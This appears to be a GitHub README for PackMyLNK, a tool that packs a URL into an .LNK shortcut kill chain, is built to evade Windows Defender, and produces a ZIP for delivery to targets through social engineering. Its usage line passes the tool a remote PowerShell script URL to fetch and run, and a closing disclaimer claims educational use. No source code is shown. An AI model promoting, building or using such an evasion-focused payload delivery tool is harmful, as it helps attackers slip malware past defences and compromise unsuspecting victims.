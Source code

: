 # PackMyLNK

This tool takes a URL as input and embeds it into a classic kill chain using .LNK files. I designed it with the specific intent of avoiding detection by Windows Defender. It generates a final ZIP file, ready to be delivered to the target using Social Engineering techniques.

## Usage
`.\PackMyLNK.exe -Url http://example.com/RunMe.ps1`

![Screenshot 2024-11-03 102536](https://github.com/user-attachments/assets/c13de60e-20c6-480a-b8c9-77f5f18303c6)


#### DISCLAIMER: This tool is intended for testing and educational purposes only. It should only be used on systems with proper authorization. Any unauthorized or illegal use of this tool is strictly prohibited. The creator of this tool holds no responsibility for any misuse or damage caused by its usage.
